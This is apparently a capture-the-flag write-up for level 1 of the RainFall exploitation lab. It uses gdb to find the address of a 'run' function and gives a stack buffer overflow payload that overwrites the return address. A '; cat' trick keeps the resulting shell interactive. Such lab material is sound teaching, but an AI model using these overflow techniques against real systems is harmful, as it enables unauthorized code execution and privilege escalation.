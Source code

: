 <h1 align="center"> LEVEL 1 </h1>

## 🔍 Analysis of Decompiled [level1](./source.c)
get the addr of the run:
```
level1@RainFall:~$ gdb ./level1
(gdb) info func run
All functions matching regular expression "run":

Non-debugging symbols:
0x08048444  run
```
 so the addr of the run function : `0x08048444`

## 💥 Exploit  
```sh
level1@RainFall:~$ (python -c 'print("A"*76 + "\x44\x84\x04\x08")') | ./level1
Good... Wait what?
Segmentation fault (core dumped)

```
The payload is sent into ./level1’s stdin.

But once Python finishes printing, EOF (end-of-file) is reached on stdin.

So when your exploit works and /bin/sh is spawned, the shell immediately sees EOF on its input and exits right away — you don’t get to interact with it.

the fix is `; cat`
```sh
level1@RainFall:~$ (python -c 'print("A"*76 + "\x44\x84\x04\x08")' ; cat) | ./level1
Good... Wait what?
whoami
level2
```
- First, Python prints your payload (overflow + return address).

- Then, cat continues running and forwards your keyboard input into the process.

- Now, when /bin/sh spawns, it still has a live stdin to read from — so you get an interactive shell.
